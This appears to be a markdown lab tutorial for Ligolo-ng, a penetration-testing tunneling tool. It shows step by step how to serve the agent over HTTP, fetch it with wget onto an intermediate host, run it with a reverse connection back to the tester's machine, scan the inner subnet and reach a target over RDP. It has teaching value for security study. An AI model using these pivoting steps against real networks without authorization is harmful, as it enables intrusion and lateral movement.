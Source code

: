 ### **Ligolo-ng Overview and Usage Guide**

**Ligolo-ng** is a **simple**, **lightweight**, and **fast** tunneling tool designed for penetration testers. It enables the creation of tunnels over reverse TCP/TLS connections using a **TUN interface** — eliminating the need for a SOCKS proxy.

🔗 GitHub Repo: https://github.com/nicocha30/ligolo-ng

📦 Download Server (Proxy) and Agent: [Ligolo-ng v0.8 Releases](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.8)

Lab Setup:

![image](https://github.com/user-attachments/assets/d4cb2435-9821-45da-bc24-c080fee8f780)


--
### 🖥️ **Running the Ligolo-ng Server (Proxy)**

1. **Unzip the downloaded release.**
2. **Run the proxy with a self-signed certificate:**

```jsx
./proxy --selfcert
```

![image](https://github.com/user-attachments/assets/dff88f9e-c4e2-4484-8636-91f21e4e7cbd)


### 🌐 **Serving the Agent to the Intermediate Machine**

1. **Start a simple HTTP server on your local machine to serve the agent file:**

```jsx
python -m http.server --bind 192.168.188.130 8888
```

![image](https://github.com/user-attachments/assets/c073ea31-ff61-4077-ba06-5dacf381a8b8)


### 📥 **Deploy the Agent to the Intermediate Machine**

1. **SSH into the intermediate machine:**
2. Download the agent file via `wget`:

```jsx
ssh [shankar@192.168.188.135](mailto:shankar@192.168.188.135)
wget http://192.168.188.130:8888/agent
```

![image](https://github.com/user-attachments/assets/f03ed78c-e65b-40e4-bc0e-c4f821074315)


### ▶️ **Running the Agent**

1. **Make the agent executable and run it:**

```jsx
chmod +x agent
./agent --connect 192.168.188.130:11601 -ignore-cert
```

![image](https://github.com/user-attachments/assets/e6dadf33-a4ec-4d40-aaf3-addb727f4837)


### 🧭 **Network Discovery**

1. **Check the IP address of the intermediate machine:**

```jsx
ifconfig
```

![image](https://github.com/user-attachments/assets/27d93758-dbeb-4820-910a-8009d83036c8)


2. Enumerate the target network (e.g., `192.168.11.0/24`):

```jsx
sudo netdiscover -i ens37 -r 192.168.11.0/24
```

![image](https://github.com/user-attachments/assets/3cf76d44-6393-4a7b-b209-bf5ec7179570)


### 🖥️ **Remote Desktop to the Target**

1. **Use Remmina (or any RDP client) to connect to the target system:**

```jsx
remmina -c rdp://john@192.168.11.131
```

![image](https://github.com/user-attachments/assets/1e54e495-83b1-4df5-9763-8a762b9d9083)

issue : 

error: unable to start tunnel: file exists

<img width="972" height="574" alt="image" src="https://github.com/user-attachments/assets/2e69bf38-e568-4751-b2b9-5150ef19c386" />


    ip link show

    sudo ip link delete <Interface name>

Delete the adapters created by ligilo and while conneting user create new interface. 
Restart agent once again
